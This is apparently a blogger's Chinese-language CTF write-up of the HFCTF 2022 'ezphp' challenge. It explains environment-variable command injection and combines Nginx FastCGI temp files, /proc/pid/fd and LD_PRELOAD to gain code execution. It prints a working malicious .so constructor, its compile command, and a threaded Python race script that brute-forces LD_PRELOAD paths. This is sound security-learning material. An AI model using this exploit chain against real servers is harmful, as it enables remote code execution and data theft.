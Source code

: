 ```yaml
---
id: hf2022-ezphp
title: hf2022-ezphp
date: 2022-03-21 12:40:30

---
```




## 前言

当时是没做出来，一直在看P神的这篇：[我是如何利用环境变量注入执行任意命令 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html#0x06-bash_env)

后来发现wp都看不懂！！就打算复现学习一下，属于是那段时间没打比赛拉下的东西

## 题目环境

1. docker环境[My-CTF-Challenges/hfctf-2022/ezphp at master · waderwu/My-CTF-Challenges (github.com)](https://github.com/waderwu/My-CTF-Challenges/tree/master/hfctf-2022/ezphp)

   这里我用的docker file搭了个本地，把文件解压到目录下

   下面是当时的history，最后访问vps映射的端口就行了
   ps：url要加上index.php（因为优先选择了存在的index.nginx-debian.html）

   ```
   docker build .
   docker images
   docker run -d -p 8899:80 --name testphp d7ffa14d954b
   docker ps
   docker exec -it 2d43 /bin/bash
   ```
   
2. 也可以去pwnthebox或者buu的环境：

   - [题库 | PwnTheBox - Hacking Platform - CTF Platform](https://ce.pwnthebox.com/challenges?q=ezphp&page=1&id=1906)
   - [BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[HFCTF2022]ezchain)

## 正文

题目如下：

```php
<?php (empty($_GET["env"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo hfctf2022');?>
```

看到就想起了P神的这篇：

> [我是如何利用环境变量注入执行任意命令 | 离别歌](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html#0x06-bash_env)
> php中调用system本质上是调用了`sh -c`
>
> 在不同操作系统中：
>
> - debian：sh→dash
> - centos：sh→bash
>
> 总结：
>
> - `BASH_ENV`：可以在`bash -c`的时候注入任意命令
> - `ENV`：可以在`sh -i -c`的时候注入任意命令
> - `PS1`：可以在`sh`或`bash`交互式环境下执行任意命令
> - `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令
> - `BASH_FUNC_xxx%%`：可以在`bash -c`或`sh -c`的时候执行任意命令

不过本题的环境是debian系统，也就是dash，所以很多师傅就去审dash源码想找一下p神没找到的利用姿势

> 我看了两晚上dash代码，几乎要给我看吐了，我很难理解为什么代码里要用这么多goto。最后还是很遗憾，虽然找到了两个可以进行命令注入的环境变量，但它们都不能在sh -c时触发。

看了wp，本题涉及到的是另外的利用点：

- Nginx临时文件 
  [hxp CTF 2021 - A New Novel LFI - 跳跳糖](https://tttang.com/archive/1384/)
  [0xbb - PHP LFI与Nginx协助 (bierbaumer.net)](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

  - 当 Nginx 接收来自 FastCGI 的响应时，若大小超过限定值 (大概 32Kb) 不适合以内存的形式来存储的时候，一部分就会以临时文件的方式保存到磁盘上。在 `/var/lib/nginx/fastcgi` 下产生临时文件。
  - 但是Nginx 创建文件就立即删除了，不过Nginx删除的`/var/lib/nginx/fastcgi`下的临时文件，还可以在`/proc/pid/fd/`下找到
    （如果打开一个进程打开了某个文件，某个文件就会出现在 `/proc/pid/fd/` 目录下，而如果该文件没被关闭的情况下就被删除，仍能在对应的`/proc/pid/fd`下找到并读取文件内容）

  

- LD_PRELOAD加载SO

  [通过LD_PRELOAD绕过disable_functions - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/86544746)

  - so文件就是c/c++编译出来的动态链接库，也叫共享库

  - 程序在动态链接时需要一个动态链接库，作用在于当动态库中的函数发生变化对于可执行程序来说时透明的，可执行程序无需重新编译，方便程序的发布/维护/更新

  - LD_PRELOAD就是这样一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。

    **那就可以构造恶意的so文件，其中是重写的系统函数，当执行代码函数，就会调用恶意库中的系统函数**，从而实现任意系统命令执行，这就需要条件：

    - 能够上传自己的.so文件
    - 能够控制环境变量的值（设置LD_PRELOAD变量），比如putenv函数

  

那么本题思路如下：

1. 请求一个过大的的文件使得Nginx产生临时文件缓存
2. 传一个填满脏数据的 so文件
3. 遍历 pid 以及 fd ，竞争 LD_PRELOAD 包含 proc目录下的临时文件 从而实现 LFI

> exp.c
>
> ```c
> #include <stdlib.h>
> #include <stdio.h>
> #include <string.h>
> 
> __attribute__ ((__constructor__)) void preload (void){
>   unsetenv("LD_PRELOAD");
>   system("id");
>   system("cat /flag > /var/www/html/flag");
> }
> ```
>
> 编译为so
>
> ```sh
> gcc -shared -fPIC exp.c -o exp.so
> ```
>
> 竞争脚本（这里用的是r3师傅写的[2022 虎符CTF Writeup by 唯独你没懂 (qq.com)](https://mp.weixin.qq.com/s?__biz=Mzg2MjYxMjAzMg==&mid=2247483903&idx=1&sn=26b6af39bc1bf9a0055c0be38a666472&chksm=ce047ed0f973f7c6b7a2ee4a300d10d22cf2a6e38fcbe5190011c8f08b14da9a30db2bf11061&mpshare=1&scene=23&srcid=0321x9PydhpbLJpuag0EBm4W&sharer_sharetime=1647861577180&sharer_shareid=3679f20229d72930158c21ee7f573b1e#rd)）
>
> ```python
> import  threading, requests
> 
> url="https://xxx/"
> nginx_workers = [10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]
> done = False
> 
> 
> def uploader():
>     print('[+] starting uploader')
>     with open("exp.so","rb") as f:
>         data = f.read()
>     while not done:
>         requests.get(url, data=data + (16 * 1024 * 'A').encode())
> for _ in range(16):
>     t = threading.Thread(target=uploader)
>     t.start()
> def bruter(pid):
>     global done
>     while not done:
>         print(f'[+] brute loop restarted: {pid}')
>         for fd in range(4, 32):
>             try:
>                 requests.get(url, params={
>                     'env': f"LD_PRELOAD=/proc/{pid}/fd/{fd}"
>                 })
>             except:
>                 pass
> 
> 
> for pid in nginx_workers:
>     a = threading.Thread(target=bruter, args=(pid, ))
>     a.start()
> 
> ```
>
> 这里因为要遍历pid和fd，所以会久一些。
> 如果是搭在docker里，就可以直接找nginx worker看一下
>
> ```
> ps -ef |grep nginx |grep -v grep
> ```




